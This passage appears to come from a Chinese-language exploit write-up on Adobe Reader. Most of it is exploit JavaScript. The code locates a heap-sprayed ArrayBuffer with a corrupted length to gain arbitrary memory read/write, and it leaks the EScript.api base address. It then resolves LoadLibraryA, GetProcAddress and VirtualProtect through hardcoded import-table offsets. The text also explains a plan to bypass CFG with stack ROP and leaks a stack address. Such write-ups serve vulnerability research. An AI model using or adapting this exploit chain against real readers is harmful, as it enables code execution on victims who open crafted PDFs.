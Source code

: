 ```
&lt;event activity="docReady" ref="$host" name="event__docReady"&gt;
        &lt;script contentType="application/x-javascript"&gt;
        &lt;/script&gt;
      &lt;/event&gt;
```

可以实现图片解析完成以后的后续操作，我们在这里，首先要查找到那个具有任意地址读写的ArrayBuffer对象，由于SpiderMonkey引擎的性质，我们可以在内存里搜索0xf0e0d0c0这个特殊数据，从而能计算出ArrayBuffer对象本身的地址，以便实现后续的读写利用

```
// 漏洞触发后，我们找到那个byteLength被修改为-1的那个ArrayBuffer，通过此ArrayBuffer，可以实现任意地址读写。
           for (var i = 0; i &amp;lt; spray.array.length; ++i) `{`
              if (spray.array[i] != null &amp;amp;&amp;amp; spray.array[i].byteLength == -1) `{`
                 //app.alert("found idx=" + i);
                 var dv = new DataView(spray.array[i]);
                 for (var j=-100;;j-=4) `{` //搜索内存，查找堆地址
                    var x = dv.getUint32(j,true);
                    if (x == 0xf0e0d0c0) `{`
                       //得到ArrayBuffer自身的地址
                       var heap_addr = dv.getUint32(j + 0xC,true) - 0x10 - j;
                       //app.alert("heap_addr=" + heap_addr.toString(16));
                       //得到dataview的地址
                       var dataview_obj_addr = dv.getUint32(-8,true);
                       app.alert("dataview_obj=" + dataview_obj_addr.toString(16));
                       //得到EScript.api模块的地址
                       var escript_base = dv.getUint32(dataview_obj_addr + 0xC - heap_addr,true) - 0x275510;
                       //app.alert("escript_base=" + escript_base.toString(16));
                       //计算三个重要的函数的iat表
                       var LoadLibraryA_iat = escript_base + 0x1af0d8;
                       var GetProcAddress_iat = escript_base + 0x1af114;
                       var VirtualProtect_iat = escript_base + 0x1af058;
                       //泄露函数地址
                       var LoadLibraryA = dv.getUint32(LoadLibraryA_iat - heap_addr,true);
                       var GetProcAddress = dv.getUint32(GetProcAddress_iat - heap_addr,true);
                       var VirtualProtect = dv.getUint32(VirtualProtect_iat - heap_addr,true);
                    `}`
                 `}`
              `}`
           `}`
```

接下来是劫持程序流，通过尝试发现程序开启了CFG控制流保护机制

[![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p5.ssl.qhimg.com/t01dd24c937ba1ffafd.png)

因此劫持虚表为gadget不可用，绕过方法有一些，这里我直接选择劫持栈做ROP。那么得泄露栈地址，在windows下泄露栈地址不太容易，得确定teb、peb的地址，而我这里盲摸索出针对当前Adobe Reader的栈地址搜索方法，即通过dataview对象里的一连串指针，偶然发现一个接近栈地址值的指针，其位置如下

```
var tmp = dv.getUint32(dataview_obj_addr - heap_addr,true);
tmp = dv.getUint32(tmp - heap_addr,true);
tmp = dv.getUint32(tmp + 0xC - heap_addr,true);
//得到一个栈地址
var s = dv.getUint32(tmp + 0x8 - heap_addr,true);
```

